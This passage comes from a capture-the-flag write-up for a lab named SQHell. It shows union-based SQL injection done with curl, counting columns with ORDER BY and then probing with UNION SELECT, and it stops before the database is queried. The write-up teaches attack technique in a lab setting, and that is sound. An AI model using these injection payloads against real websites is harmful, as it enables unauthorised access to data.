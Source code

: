 ![sqhell-union-flag](../assets/images/2021-06-10-22-31-25.png)

We have the flag. Let's move on to a different method.

## Flag 5 - In-Band/Union - Curl Method

I went in to detail on the last flag on using curl instead of the browser. If you can use a browser you would because it's easier, but in case it's not possible here's how to do this flag using curl.

First check how many columns we have:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 ORDER BY 1"
Post not found
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 ORDER BY 1,2"
Post not found
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 ORDER BY 1,2,3"
Post not found
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 ORDER BY 1,2,3,4"
Post not found
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 ORDER BY 1,2,3,4,5"
Unknown column '5' in 'order clause'
```

We have four columns, as before we check to see which one is useable to display the data we retrieve:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 union all select 1,2,3,4" | grep -A 1 panel-body
                <div class="panel-body">
                    3                </div>
```

I use grep to filter the output down to just the body of the response. We see column three is the one to use. Let's find the database name:
